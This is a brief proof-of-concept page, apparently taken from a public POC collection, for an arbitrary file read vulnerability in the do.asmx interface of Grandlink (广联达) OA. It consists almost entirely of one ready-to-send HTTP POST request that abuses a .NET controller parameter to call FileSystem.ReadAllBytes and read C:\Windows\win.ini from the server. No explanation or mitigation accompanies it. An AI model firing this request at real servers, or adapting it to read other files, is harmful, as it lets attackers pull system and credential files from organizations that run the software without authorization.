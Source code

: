 # gld_do_fileread

```
POST /m/mobileAction.ashx/do.asmx?controller=Microsoft.VisualBasic.FileIO.FileSystem%2c%20Microsoft.VisualBasic%2c%20Version%3d8.0.0.0%2c%20Culture%3dneutral%2c%20PublicKeyToken%3db03f5f7f11d50a3a&action=ReadAllBytes HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Connection: close

["\"C:\\\\Windows\\\\win.ini\""]
```
from: https://github.com/wy876/POC/blob/main/%E5%B9%BF%E8%81%94%E8%BE%BEOA/%E5%B9%BF%E8%81%94%E8%BE%BEOA%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3do.asmx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

